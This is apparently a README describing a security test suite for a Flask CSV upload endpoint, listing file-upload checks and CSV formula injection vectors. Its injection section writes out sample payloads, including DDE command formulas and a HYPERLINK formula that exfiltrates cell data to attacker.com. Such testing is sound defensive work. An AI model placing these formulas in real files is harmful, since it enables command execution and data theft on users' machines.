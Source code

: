 # Comprehensive Security Testing Guide for Flask CSV Upload Endpoint

## Overview

This comprehensive security testing suite implements 2025 Flask security testing best practices specifically designed for CSV upload endpoints. The testing framework covers all major security vulnerabilities and attack vectors relevant to file upload functionality.

## 🛡️ Security Testing Coverage

### 1. File Upload Security Testing (`test_file_upload_security.py`)

**Comprehensive file upload vulnerability testing including:**

- **File Extension Validation**: Tests bypass attempts using double extensions, null bytes, case variations
- **MIME Type Spoofing**: Detection of malicious files with correct extensions but wrong content types  
- **Path Traversal Protection**: Tests filenames containing `../` or absolute paths
- **File Size Limits**: Validation of size restrictions and DoS prevention
- **Executable Masquerading**: Detection of executable files disguised as CSV/Excel
- **Unicode Filename Handling**: Support for international characters and encoding attacks
- **Concurrent Upload Safety**: Race condition testing and thread safety validation
- **Session Security**: Ensures session data doesn't contain malicious content
- **Error Message Security**: Prevents information disclosure through error messages

### 2. Advanced CSV Injection Testing (`test_csv_injection_advanced.py`)

**Comprehensive CSV formula injection attack testing based on 2025 OWASP guidelines:**

#### Attack Vectors Tested:
- **Classic Formula Injection**: `=cmd|"/c calc"!A0`, `+cmd|"/c notepad"!A0`
- **DDE Attacks**: Dynamic Data Exchange exploitation attempts
- **Data Exfiltration**: `=HYPERLINK("http://attacker.com/"&A1)`
- **Macro Execution**: `=Auto_Open()`, `=Workbook_Open()`
- **Command Execution**: Various system command execution attempts
- **Unicode Bypasses**: Fullwidth characters and encoding variations
- **Nested Formulas**: Complex formula combinations for evasion

#### Testing Contexts:
- Multiple CSV field positions (first name, company, title, etc.)
- Mixed valid/malicious data scenarios
- Large datasets with scattered injections
- Encoding variation testing
- Real-world attack simulation

### 3. Comprehensive Security Integration (`test_security_comprehensive.py`)
